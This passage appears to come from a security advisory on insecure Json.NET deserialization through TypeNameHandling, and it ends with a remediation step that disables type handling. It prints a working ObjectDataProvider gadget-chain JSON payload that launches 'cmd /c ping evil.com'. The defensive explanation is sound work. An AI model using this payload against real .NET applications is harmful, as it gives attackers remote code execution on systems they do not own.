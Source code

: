 1. The deserializer reads the "$type" value
2. It loads the specified assembly if not already loaded
3. It creates an instance of the specified type
4. It populates the object's properties with the JSON values

Without a custom SerializationBinder, there's no restriction on what types can be instantiated. Attackers can leverage this to target types that either:

1. Execute code in their constructors or property setters
2. Form part of a "gadget chain" where a sequence of seemingly innocent method calls can be chained to achieve code execution

Many built-in .NET types can be abused in this way, especially those in frameworks like Windows Presentation Foundation (WPF), Windows Communication Foundation (WCF), and ASP.NET.

**Common Gadget Chain Example:**

One of the most common gadget chains utilizes ObjectDataProvider from WPF:

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
  "MethodName": "Start",
  "MethodParameters": {
    "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "$values": ["cmd", "/c ping evil.com"]
  },
  "ObjectInstance": { "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" }
}

```

When deserialized, this creates a Process object and calls its Start method with the provided parameters, executing the command.

# Remediation Steps
## Change TypeNameHandling to None

**Priority**: P0

The most secure option is to completely disable type handling in the JSON deserializer by setting TypeNameHandling to None:

```csharp
JsonSerializerSettings settings = new JsonSerializerSettings
{
    TypeNameHandling = TypeNameHandling.None // Secure setting
};

object deserializedObject = JsonConvert.DeserializeObject(jsonPayload, settings);

```
